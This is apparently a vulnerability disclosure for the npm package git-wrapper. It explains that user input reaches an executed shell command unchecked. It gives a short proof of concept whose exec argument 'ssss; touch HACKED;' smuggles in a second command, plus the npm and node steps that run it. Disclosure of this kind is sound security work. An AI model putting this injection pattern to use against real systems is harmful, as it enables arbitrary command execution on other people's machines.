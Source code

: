 The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: 

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))
1. Create the following PoC file:
```js
// poc.js
var Git = require('git-wrapper');
var git = new Git();
git.exec('ssss; touch HACKED;', [], function(err, s){})
```
2. Check there aren't files called `HACKED`
3. Execute the following commands in another terminal:
```bash
npm i git-wrapper # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
## References:
 - [GitHub Issue](https://github.com/pvorb/node-git-wrapper/issues/5)
 - [GitHub Permalink #1](https://github.com/pvorb/node-git-wrapper/blob/master/git.js#L33)